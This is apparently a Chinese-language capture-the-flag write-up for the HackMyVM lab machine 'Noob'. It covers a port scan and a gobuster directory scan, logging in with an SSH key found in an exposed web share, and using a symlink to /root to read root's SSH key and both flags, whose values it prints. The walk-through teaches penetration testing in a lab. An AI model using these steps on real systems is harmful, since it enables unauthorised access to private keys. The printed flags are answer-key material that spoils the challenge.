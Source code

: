 # Bah

2024-11-22 https://hackmyvm.eu/machines/machine.php?vm=Noob

## IP

192.168.5.39

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
65530/tcp open  unknown
```

目录扫描：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt -u http://192.168.5.39:65530/

http://192.168.5.39:65530/nt4share/
```

发现 ssh 登陆密钥，在 id_rsa.pub 中发现用户名 adela@noob 进行尝试 ssh 登陆，登陆成功。

进行枚举，什么都没发现，查看进程发现这个用户没有运行 65530 端口的服务，那么很有可能就是 root 用户运行的，这时在 adela 用户目录下，创建软链接指向 /root 目录，就可以再次通过网页进行访问，得到了 root 用户的 ssh 密钥：

```
ln -s /root root
```

这时直接访问到了 root 中的 user flag 和 root flag：

```
http://192.168.5.39:65530/nt4share/root/user.txt   HMVVCXUIUHFDSUIYREWDS432

http://192.168.5.39:65530/nt4share/root/root.txt   HMVA97DSA8732HJGDSA78623
```
